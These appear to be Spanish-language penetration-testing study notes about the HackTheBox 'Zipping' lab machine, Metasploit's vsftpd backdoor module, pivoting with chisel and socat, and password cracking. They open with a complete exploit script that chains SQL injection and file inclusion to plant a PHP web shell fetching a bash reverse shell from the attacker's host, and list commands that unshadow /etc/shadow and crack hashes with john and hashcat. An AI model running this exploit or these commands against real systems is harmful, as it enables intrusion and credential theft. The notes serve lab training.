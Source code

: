 # Identificar y modificar exploits

```
import requests
import sys
import subprocess
import random

if len(sys.argv) < 2:
	#AQUI HABRIA QUE CAMBIAR EL LISTENER IP Y EL LISTENER PORT
    print("Usage: python3 HTB_Zipping_poc.py <listener ip> <listener port>")
    sys.exit(1)

fnb = random.randint(10, 10000)
url = "http://zipping.htb/"

session = requests.Session()

print("[+] Please run nc in other terminal: rlwrap -cAr nc -nvlp " + f"{sys.argv[2]}")

print("[+] Write php shell /var/lib/mysql/rvsl" + str(fnb) + ".php")

with open('revshell.sh', 'w') as f:
        f.write("#!/bin/bash\n")
        f.write(f"bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1")
proc = subprocess.Popen(["python3", "-m", "http.server", "8000"])
phpshell = session.get(url + f"shop/index.php?page=product&id=%0A'%3bselect+'<%3fphp+system(\"curl+http%3a//{sys.argv[1]}:8000/revshell.sh|bash\")%3b%3f>'+into+outfile+'/var/lib/mysql/rvsl{fnb}.php'+%231")

print("[+] Get Reverse Shell")

phpshell = session.get(url + f"shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2frvsl{fnb}")

proc.terminate()
```

# Realizar explotación con metasploit

![image](https://github.com/user-attachments/assets/99bc01b1-9d9e-4c20-abf0-b6862b05e4b0)

Después de hacer un nmap y haber visto las versiones de los servicios, podemos buscar a ver si hay exploits con searchsploit.
![image](https://github.com/user-attachments/assets/5d5254ed-46a3-44ae-893c-106d6b8d6da2)

También podemos hacer la búsqueda desde la msfconsole.
![image](https://github.com/user-attachments/assets/0e842828-5115-40c3-9419-2ac7de8b8b87)

Podemos buscar haber si hay algun exploit disponible  con search 
Podemos seleccionar el eploit con use 0, sino podemos hacer un use exploit/unix/ftp/vsftpd_234_backdoor
![image](https://github.com/user-attachments/assets/e9a88f42-07c3-4743-aeb5-791075080c02)

Con show options, podemos ver los parametros que necesita el exploit.
![image](https://github.com/user-attachments/assets/15394aee-2def-4658-809e-41a57796fad5)

Con set marcamos el rhosts y le ponemos la ip de la máquina victima.
Hacemos el primer exploit y vemos que no ha conseguido crear la session, pero hacemos run y ya coge la shell como root.

# Demostrar cómo pivotar agregando una ruta y reenviando puertos
![image](https://github.com/user-attachments/assets/a2466c9e-7e63-4828-83b7-ce971ad4acd7)

Creamos un servidor  con chisel para crear un tunel http entre la máquina victima y la mía.
![image](https://github.com/user-attachments/assets/17eac6bd-afe0-433f-9a95-a48b915f8601)

Nos conectamos como cliente desde la máquina victima a la máquina atacante.
![image](https://github.com/user-attachments/assets/12952c36-afad-4e1d-886f-74c943f342fc)

Podemos ver que se nos han conectado por el puerto 6565 y que se ha generado un proxy en el puerto 1080.
![image](https://github.com/user-attachments/assets/53006bbe-e569-4f5b-af83-bca58fe63769)

Añadimos está linea al final del todo del archivo /etc/proxychains4
![image](https://github.com/user-attachments/assets/aad2e1f7-1ca9-461d-adf2-b2880a9a1816)

Añadimos el proxy y ya podremos ver la página de la segunda máquina de la red. Pero para que estas máquinas puedan conectarse a nosotros necesitamos el socat.

![image](https://github.com/user-attachments/assets/9c40aac3-b8b3-4b3e-9218-4629868a6466)

Abrimos en la máquina victima 1 un escucha en el puerto 1111, y que lo reenvie a nuestra máquina atacante al puerto 448.

![image](https://github.com/user-attachments/assets/bfcc8164-0c59-4692-b32f-0c3d3b5bc27a)

En la máquina atacante abrimos la escucha en el puerto 448 con nc.
![image](https://github.com/user-attachments/assets/b58ae2fb-b890-4d33-84a1-6668ebaf51be)

Hacemos un revershell en la máquina victima 2.

![image](https://github.com/user-attachments/assets/8244188f-b6d2-424d-a27f-d96d7b652d37)

Y en la escucha que tenemos en el puerto 448 se nos abrirá la shell de la máquina 2.





# Realizar ataques de fuerza bruta a contraseñas y descifrado de hash

![image](https://github.com/user-attachments/assets/40123c1d-985d-45e8-9f8d-92ab442b1cab)
Para hacer ataques de fuerza bruta a contraseñas, podemos utilizar hydra:
-L marca el diccionario de usernames que se probarán
-p marca el diccionario de passwords que utilizará
Después marcamos la ip objetivo y el servicio que queremos atacar.
-s marcamos puerto específico

John the ripper:
Con esta herramienta podemos hacer ataques de fuerza bruta a hashes de contraseña.

Practica de ejemplo:
`unshadow /etc/passwd /etc/shadow > password.txt`
`john --wordlist=/path/to/dictionary password.txt`
`john --wordlist=/home/kali/contraas.txt  hash.txt --format=crypt ` "--format=crypt(sirve para yescrypt que es el hash de la pass de linux)"
`john --show password.txt`


Con john podemos adaptarnos a diferentes formatos de hash y tipos de archivos protegidos por contraseña. Existen unas herramientas que convierten estos archivos o hashes a un formato legible para john the ripper. Estas herramientas son programas conocidos como 2john. Ej:
zip2john -- rar2john -- pdf2john -- keepass2john...

Hashcat

Con esta herramienta también podemos hacer ataques de fuerza bruta a contraseñas.

Ejemplos de uso:

`hashcat -m 0 -a 0 hash.txt rockyou.txt`

Con -m especificamos el tipo de hash (MD5 en este caso)
-a especifica el modo de ataque (ataque de diccionario)
Primero se pone el archivo donde tenemos el hash a crackear y luego ponemos el diccionario 
